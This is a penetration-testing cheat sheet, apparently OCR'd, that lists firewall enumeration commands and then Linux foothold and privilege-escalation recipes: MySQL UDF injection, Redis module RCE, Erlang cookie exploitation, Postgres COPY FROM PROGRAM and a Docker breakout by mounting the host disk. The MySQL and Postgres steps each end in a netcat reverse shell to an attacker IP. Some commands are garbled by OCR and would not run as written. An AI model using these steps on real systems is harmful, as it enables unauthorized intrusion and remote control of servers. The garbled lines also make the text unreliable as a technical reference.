 

# Firewall

**Linux:**
1: iptables -L
2: cat /etc/ufw/user.rules

**Windows:**
1: netsh advfirewall show currentprofile
2: netsh advfirewall firewall show rule name=all



# Linux
**Foothold or PE
1: MySQL UDF**
a: Download **compiled module** (https://github.com/rapid7/metasploit-
framework/tree/master/data/exploits/mysql
b: **create table zys(line blob);**
c: **insert into zys values(load_file('tmp/sqlpe.so'));**
d: **select * from zys into dumpfile '/usr'lib/mysql/plugin/sqlpe.so';**
e: **create function sys_exec returns integer soname 'sqlpe.so';**
f: **select sys_exec('nc -nv 10.10.10.10 20 -e /bin/bash');**

**2: Redis RCE**
exp 1: In **redis cli,** execute: **LOAD MODULE /var/ftp/pub/module.so
(https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)**
exp 2: **python redisrce.py -r 10.10.10.10 -p 6379 -L 10.10.10.20 -P 6379 -f
shell.so** (https://github.com/Ridter/redis-rce)

**3: Erlang RCE**
a: Find **.erlang.cookie** file
b: Download exploit from https://www.exploit-db.com/exploits/49418
c: **Edit** the exploit
d: **python3 exp.py**

**4: Postgres RCE**
a: Switch to database app: **\c app**
b: **drop table if exists cmd_exec;**
c: **create table cmd_exec(cmd_output text);**
d: Set up a netcat listener, execute **COPY cmd_exec FROM PROGRAM 'nc
10.10.10.10 4444 -e /bin/bash';**

**5: Docker breakout
Root privilege in docker environment**
a: **fdisk -l**
b: **mkdir -p /mnt/pwn**
c: **mount /dev/sda1 /mnt/pwn**
d: cd /mnt/pwn/root
e: **chroot /mnt/pwn
Normal user in docker environment**
Find more info within the environment

